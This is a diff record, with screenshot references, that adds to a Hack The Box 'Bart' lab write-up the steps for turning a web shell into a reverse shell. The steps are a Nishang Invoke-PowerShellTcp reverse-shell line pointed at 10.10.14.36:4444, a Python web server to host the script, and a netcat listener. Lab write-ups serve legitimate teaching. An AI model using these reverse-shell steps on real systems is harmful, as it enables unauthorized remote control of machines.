

:)

Changed region(s): [[0.0915, 0.7487, 1.0, 0.8021], [0.0, 0.8289, 0.122, 0.8824]]

diff --git a/_posts/2020-01-20-bart-HTB.md b/_posts/2020-01-20-bart-HTB.md
@@ -225,3 +225,20 @@ curl http://internal-01.bart.htb/log/0xdf.php?cmd=whoami
 ```
 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/after-cmd.png" alt="after-cmd">
 
+Now having access to the command prompt from Bart, it's time to get a reverse shell  with powershell, but before that we must set up our web server in order to download our powershell script from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Remember to add ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.36 -Port 4444``` in the last line of the script in order to get the reverse shell to our localhost. So let's set the web server up:
+```
+python -m SimpleHTTPServer 80
+```
+and let's make the request in order to download and execute the powershell script from nishang. 
+
+<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/python-getting-shell.png" alt="python-getting-shell">
+
+Setting up our netcat listener and we got a shell!
+
+<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/shell-gotten.png" alt="shell-gotten">
+
+## Getting a shell using BurpSuite
+
+
+
+
